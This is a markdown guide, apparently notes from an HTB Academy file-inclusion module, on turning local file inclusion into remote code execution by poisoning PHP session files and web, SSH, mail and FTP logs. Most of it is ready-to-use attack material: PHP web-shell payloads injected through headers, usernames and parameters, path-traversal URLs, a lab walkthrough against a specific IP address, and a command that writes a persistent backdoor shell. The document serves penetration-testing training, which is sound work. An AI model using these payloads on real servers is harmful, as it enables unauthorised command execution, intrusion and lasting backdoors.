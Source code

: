 # Log Poisoning Techniques - HTB Academy Guide

## Overview

Log poisoning combines LFI with log file contamination to achieve remote code execution by injecting malicious code into log files that can later be included and executed.

**Prerequisites:**
- LFI vulnerability allowing access to log files
- Ability to control logged data (User-Agent, HTTP headers, SSH attempts, etc.)
- Web server with write permissions to log files

---

## Method 1: PHP Session Poisoning

### Complete 5-Step Workflow

**Step 1: Identify Session File Location**
```bash
# Common PHP session locations
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID

# Get PHPSESSID from cookies
curl -I http://target.com/ | grep -i set-cookie
```

**Step 2: Poison Session Data**
```bash
# Include poisoned session via LFI
http://target.com/lfi.php?file=../../../../var/lib/php/sessions/sess_SESSIONID

# Inject PHP code into session
http://target.com/lfi.php?language=<?php system($_GET["cmd"]); ?>
```

**Step 3: Execute Commands**
```bash
# Access session file with command parameter
http://target.com/lfi.php?file=../../../../var/lib/php/sessions/sess_SESSIONID&cmd=id
```

---

## Method 2: Apache/Nginx Access Log Poisoning

### User-Agent Poisoning

**Step 1: Identify Log Location**
```bash
# Apache logs
/var/log/apache2/access.log
/var/log/httpd/access_log

# Nginx logs  
/var/log/nginx/access.log
```

**Step 2: Poison User-Agent Header**
```bash
# Via curl
curl -s "http://target.com/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

# Via Burp Suite
# Intercept request and modify User-Agent header
User-Agent: <?php system($_GET['cmd']); ?>
```

**Step 3: Execute via Log Inclusion**
```bash
# Include poisoned access log
http://target.com/lfi.php?file=../../../../var/log/apache2/access.log&cmd=whoami
```

---

## Method 3: SSH Log Poisoning

### SSH Auth Log Contamination

**Step 1: Identify SSH Log Location**
```bash
/var/log/auth.log       # Debian/Ubuntu
/var/log/secure         # CentOS/RHEL
```

**Step 2: Poison SSH Login Attempts**
```bash
# Inject PHP code in username
ssh '<?php system($_GET["cmd"]); ?>'@target.com

# Multiple attempts for reliable poisoning
for i in {1..5}; do
    ssh '<?php system($_GET["cmd"]); ?>'@target.com
done
```

**Step 3: Execute via Log Inclusion**
```bash
http://target.com/lfi.php?file=../../../../var/log/auth.log&cmd=id
```

---

## Method 4: Mail Log Poisoning

### SMTP Log Contamination

**Common Mail Logs:**
```bash
/var/log/mail.log
/var/log/mail.err
/var/mail/www-data
```

**Poisoning Technique:**
```bash
# Send email with PHP payload in sender field
telnet target.com 25
MAIL FROM: <?php system($_GET["cmd"]); ?>
```

---

## Method 5: FTP Log Poisoning

### FTP Authentication Logs

**Log Locations:**
```bash
/var/log/vsftpd.log
/var/log/ftp.log
```

**Poisoning via FTP Login:**
```bash
ftp target.com
# Username: <?php system($_GET["cmd"]); ?>
```

---

## HTB Academy Log Poisoning Lab

### Complete Lab Walkthrough

**Objective:** Achieve RCE via log poisoning and read flag

**Step 1: Identify Vulnerable Parameter**
```bash
http://83.136.254.199:58743/index.php?language=en
```

**Step 2: Test LFI**
```bash
http://83.136.254.199:58743/index.php?language=../../../../etc/passwd
```

**Step 3: Identify Session Location**
```bash
# Check for PHP sessions
http://83.136.254.199:58743/index.php?language=../../../../var/lib/php/sessions/sess_SESSIONID
```

**Step 4: Poison Session**
```bash
# Inject PHP code via language parameter
http://83.136.254.199:58743/index.php?language=<?php system($_GET["cmd"]); ?>
```

**Step 5: Execute Commands**
```bash
# Include session with command execution
http://83.136.254.199:58743/index.php?language=../../../../var/lib/php/sessions/sess_SESSIONID&cmd=find / -name "*flag*" 2>/dev/null
```

---

## Advanced Log Poisoning Techniques

### Multi-Field Poisoning
```bash
# Poison multiple HTTP headers
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     -H "X-Forwarded-For: <?php system(\$_GET['cmd2']); ?>" \
     -H "Referer: <?php system(\$_GET['cmd3']); ?>" \
     http://target.com/
```

### Persistent Shell Creation
```bash
# Create persistent backdoor in logs
curl -H "User-Agent: <?php file_put_contents('shell.php', '<?php system(\$_GET[\"cmd\"]); ?>'); ?>" \
     http://target.com/
```

---

*[Content continues with troubleshooting and additional techniques...]*

*This guide covers advanced log poisoning techniques from HTB Academy's File Inclusion module.* 